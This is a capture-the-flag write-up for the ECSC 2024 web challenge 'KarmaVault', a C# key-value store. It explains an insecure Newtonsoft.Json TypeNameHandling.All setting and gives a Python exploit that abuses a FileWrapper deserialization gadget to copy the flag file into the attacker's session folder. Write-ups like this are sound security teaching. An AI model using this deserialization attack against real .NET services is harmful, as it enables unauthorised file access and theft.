


# ECSC 2024 - Jeopardy

## [web] KarmaVault (21 solves)

KarmaVault is a new KV service, it was developed very fast by our
programmers and our cybersecurity team assured us that the software is
perfectly secure and ready to land in production.

[https://karmavault.challs.jeopardy.ecsc2024.it](https://karmavault.challs.jeopardy.ecsc2024.it)

Author: Vittorio Mignini <@M1gnus>

## Overview

The challenge consists in a simple KV store. The offered features are:

* Get current entries
* Backup an entry
* Delete an entry
* Create a new entry
* Download an entry
* Visualize an entry

The backend is coded in C#, and requests body are parsed using `Newtonsoft.Json` library.
Every session has its own folder, in which kv files are stored.



## Solution

In `Program.cs`, Newtonsoft.Json is configured to have a very weak type validation:

```cs
builder.Services.AddControllers().AddNewtonsoftJson(options => {
    options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
});
```

This allows an attacker to deserialize objects of arbitrary type. A valid
gadget is represented by the class `FileWrapper`. Using that class an attacker
can move the flag inside his session folder and then download it like any
other kv entry.

`FileWrapper` is a class which uses setter to implement business logic for
a variety of operations. By setting `source` and `path` source is moved to
path.

Using the endpoint `POST /api/v1/Files`, specifically the field
`NewFile.metadata` an attacker can deserialize `FileWrapper` with
appropriate `source` and `path` fields.

The session id parameter can be obtained with a request to the endpoint
`GET /api/v1/Files/{filename}` with a filename that doesn't exists,
the error page contains the session id.



## Exploit

```py
import os
import re
import requests

BASE_URL = os.environ.get("BASE_URL", "http://localhost/api/v1")
SID_RE = re.compile(r".+/vault/(.+)/nonexist.+")

s = requests.Session()

# Recover session id
sid = SID_RE.search(s.get(f"{BASE_URL}/Files/nonexist").text).group(1)
print(f"RECOVERED SESSION ID: {sid}")

# Copy flag in session folder
s.post(f"{BASE_URL}/Files", json={
    "filename": "exploit",
    "key": "exploit",
    "value": "exploit",
    "metadata": {
        "$type": "backend.FileWrapper, backend",
        "source": "/flag.txt",
        "path": f"/tmp/vault/{sid}/flag.txt",
    },
})

# Recover flag
flag = s.get(f"{BASE_URL}/Files/flag.txt/content").text
print(f"FLAG: {flag}")
```

## Resources

<https://exploit-notes.hdks.org/exploit/web/security-risk/json-net-deserialization/>
